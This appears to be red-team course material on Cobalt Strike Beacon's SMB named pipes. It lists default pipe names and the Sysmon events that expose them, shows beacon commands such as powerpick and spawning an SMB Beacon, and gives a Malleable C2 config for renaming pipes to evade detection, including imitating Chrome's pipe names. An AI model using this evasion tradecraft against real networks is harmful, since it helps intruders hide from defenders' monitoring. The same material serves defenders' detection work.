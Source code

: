 Beacon uses SMB named pipes in four main ways.

1.  Retrieve output from some fork and run commands such as execute-assembly and powerpick.
2.  Connect to Beacon's SSH agent (not something we use in the course).
3.  The SMB Beacon's named pipe stager (also not often used).
4.  C2 comms in the SMB Beacon itself.

Sysmon event ID 17 (pipe created) and 18 (pipe connected) can be used to spot the default pipe name used by Beacon in these situations.

The default pipe name for post-ex commands is `postex_####`; the default for the SSH agent is `postex_ssh_####`; the default for the SMB Beacon's stager is `status_##`; and the default for the main SMB Beacon C2 is `msagent_##`.  In each case, the #'s are replaced with random hex values.

Execute a fork and run command:

```
beacon> powerpick Get-ChildItem
```

We should get an event like this (the image name is the spawnto process):

```shell
Pipe Created:
EventType: CreatePipe
ProcessId: 4664
PipeName: \postex_7b88
Image: C:\Windows\system32\notepad.exe
```

  

We get the same by spawning an SMB Beacon.

```shell
beacon> spawn x64 smb
[*] Tasked beacon to spawn (x64) windows/beacon_bind_pipe (\\.\pipe\msagent_36)
[+] host called home, sent: 255536 bytes
[+] established link to child beacon: 10.10.120.106

Pipe Created:
EventType: CreatePipe
ProcessId: 5044
PipeName: \msagent_36
Image: C:\Windows\system32\notepad.exe
```

  

Many Sysmon configurations only log specific (known) pipe names, such as the defaults used in various toolsets.  So in most cases, changing the pipe names to something relatively random will get you by most times.  Some operators choose to use names that are used by legitimate applications - a good example is the "mojo" pipe name that Google Chrome uses.  If you go down this route, make sure your ppid and spawnto match this pretext, otherwise you're going to create anomalous logs.

The `pipename_stager` and `ssh_pipename` Malleable C2 directives are global options (not part of a specific block).

To change the pipe name used in post-ex commands, use the `set pipename` directive in the `post-ex` block.  This can take a comma-separated list of names, and can include the # character for some randomisation.

```
post-ex {
        set pipename "totally_not_beacon, legitPipe_##";
}
```